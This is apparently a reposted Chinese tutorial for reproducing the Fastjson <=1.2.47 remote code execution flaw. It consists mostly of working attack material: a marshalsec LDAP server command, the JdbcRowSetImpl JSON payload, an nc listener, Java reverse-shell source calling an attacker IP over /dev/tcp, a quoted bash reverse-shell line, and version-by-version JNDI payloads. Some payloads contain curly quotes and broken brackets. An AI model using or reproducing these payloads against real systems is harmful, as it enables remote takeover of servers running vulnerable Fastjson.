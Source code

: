 # Fastjson <=1.2.47 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2932](https://www.zhihuifly.com/t/topic/2932)

# Fastjson <=1.2.47 远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Fastjson < 1.2.47

## 三、复现过程

**https://github.com/ianxtianxt/fastjson-1.2.47-RCE-1**

*   执行：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IPvps/#Exploit 
```

![1.png](img/9b3e00b075cd75d5c4a2b2b1dd16f855.png)

*   修改反弹ip和端口：

```
vim Exploit.java 
```

*   编译生成class：//`需要使用jdk1.8，否则会报错`

```
javac Exploit.java 
```

*   开启http服务：

```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80 
```

*   payload:

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}} 
```

*   开启nc监听反弹：

```
nc -lvvp 8888 
```

### 反弹shell poc补充

#### **java反弹shell，无法直接使用bash -i >& /dev/tcp/攻击服务器ip/8888 0>&1**

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{

public Exploit() throws Exception {

Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",“exec 5<>/dev/tcp/攻击服务器ip/888;cat <&5 | while read line; do $line 2>&5 >&5; done”});

InputStream is = p.getInputStream();

BufferedReader reader = new BufferedReader(new InputStreamReader(is));

```
 String line;
    while((line = reader.readLine()) != null) {
        System.out.println(line);
    }

    p.waitFor();
    is.close();
    reader.close();
    p.destroy();
}

public static void main(String[] args) throws Exception {
} 
``` `}` 
```

### 补充

**https://github.com/ianxtianxt/Fastjson-1.2.47-rce**

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)

{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.41

{"@type":“Lcom.sun.rowset.RowSetImpl;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.42

{"@type":“LLcom.sun.rowset.JdbcRowSetImpl;;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true};

1.2.43

{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true]}

1.2.45

{"@type":“org.apache.ibatis.datasource.jndi.JndiDataSourceFactory”,“properties”:{“data_source”:“rmi://localhost:1099/Exploit”}} `1.2.47

{“a”:{"@type":“java.lang.Class”,“val”:“com.sun.rowset.JdbcRowSetImpl”},“b”:{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}}}` 
```